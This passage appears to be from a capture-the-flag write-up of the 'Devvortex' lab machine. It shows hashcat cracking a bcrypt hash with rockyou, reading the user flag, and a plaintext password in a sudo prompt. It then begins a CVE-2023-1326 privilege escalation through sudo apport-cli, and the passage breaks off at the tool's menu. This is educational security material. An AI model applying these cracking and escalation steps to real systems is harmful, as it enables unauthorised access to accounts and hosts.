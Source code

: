 ```
Hash.Target......: $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy...tkIj12
Time.Started.....: Sun Jan 21 12:38:59 2024 (21 secs)
Time.Estimated...: Sun Jan 21 12:39:20 2024 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       66 H/s (7.47ms) @ Accel:8 Loops:16 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1408/14344385 (0.01%)
Rejected.........: 0/1408 (0.00%)
Restore.Point....: 1376/14344385 (0.01%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1008-1024
Candidates.#1....: jesse -> tagged
```

I can now log as logan and get the flag:
```
$ su logan
Password: t[...SNIP...]o

logan@devvortex:/$ cat /home/logan/user.txt
4[...SNIP...]5
```
## Privilege escalation
Now that I have access to logan account, I run a linpeas analysis to find a way to escalate privileges. In the log, I got:
```
╔══════════╣ Do not forget to execute 'sudo -l' without password or with valid password (if you know it)!!
```
So I did it:
```
logan@devvortex:/tmp$ sudo -l
sudo -l
[sudo] password for logan: 

Sorry, try again.
[sudo] password for logan: tequieromucho

Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```
It seems that I can run `apport-cli` with the sudo command. Looking at any vulnerability for this binary, I found [`CVE-2023-1326`](https://github.com/diego-tella/CVE-2023-1326-PoC) which allows a user to execute system command when reading a crash dump. I looked for a crash dump on the system:
```
logan@devvortex:/tmp$ find / -name \*.crash 2> /dev/null
/var/crash/_usr_bin_apport-unpack.1000.crash
```
Then, I just have to run `apport-cli` with this crash dump:
```
logan@devvortex:/tmp$ sudo apport-cli -c /var/crash/_usr_bin_apport-unpack.1000.crash

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (29.4 KB)
  V: View report
```